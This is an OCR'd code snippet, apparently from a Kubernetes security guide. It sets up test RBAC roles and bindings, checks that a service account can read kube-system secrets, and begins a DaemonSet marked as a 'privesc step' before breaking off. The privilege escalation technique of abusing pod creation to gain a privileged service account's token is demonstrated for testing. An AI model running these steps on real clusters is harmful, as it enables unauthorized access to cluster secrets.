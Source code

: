 ```bash
rules:
- apiGroups: ["apps"]
resources: ["daemonsets"]
verbs: ["get", "list", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: test-rb
subjects:
- kind: User
name: Test
roleRef:
kind: Role
name: test-r
apiGroup: rbac.authorization.k8s.io
---
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
name: test-cr
rules:
- apiGroups: [""]
resources: ["secrets"]
verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
name: test-crb
subjects:
- kind: ServiceAccount
namespace: default
name: test-sa
apiGroup: ""
roleRef:
kind: ClusterRole
name: test-cr
apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Check test-sa can access kube-system secrets
kubectl --as system:serviceaccount:default:test-sa -n kube-system get secrets

# Check user User can get pods in namespace default
kubectl --as Test -n default get daemonsets

# Create a daemonset as user Test with the SA test-sa (privesc step)
echo "apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: default
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: test-sa
automountServiceAccountToken: true
```